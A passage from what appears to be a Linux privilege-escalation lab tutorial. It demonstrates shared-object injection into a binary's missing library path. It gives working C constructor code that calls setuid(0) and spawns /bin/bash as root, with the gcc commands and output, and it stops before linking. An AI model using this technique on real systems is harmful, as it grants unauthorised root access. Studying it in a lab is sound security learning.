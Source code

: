 Create a custom shared object in the directory that the binary (nosuchfile) looks for the dynamic library, in this case is `/home/low/.config/custom.so`. 

```bash
vim /home/low/.config/custom.c
```

Will create a code that executes bash as root:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Navigate to the directory `/home/low/.config`:

```bash
low@ubuntu:~/so-files$ cd /home/low/.config
```

Now compile the `custom.c` file and ignore the warning message:

Treat warnings as errors (-Werror), as a developer you should always try to use this:

```bash
low@ubuntu:~/.config$ gcc -c -Wall -Werror -fpic custom.c
custom.c: In function ‘inject’:
custom.c:7:2: error: implicit declaration of function ‘setuid’ [-Werror=implicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
custom.c:8:2: error: implicit declaration of function ‘setgid’ [-Werror=implicit-function-declaration]
    8 |  setgid(0);
      |  ^~~~~~
cc1: all warnings being treated as errors
```

However, because I want to demonstrate this privilege escalation technique, I'll ignore the warnings and just compile the program so I won't use it:

```bash
low@ubuntu:~/.config$ gcc -c -Wall -fpic custom.c
custom.c: In function ‘inject’:
custom.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
custom.c:8:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |  setgid(0);
      |  ^~~~~~
```
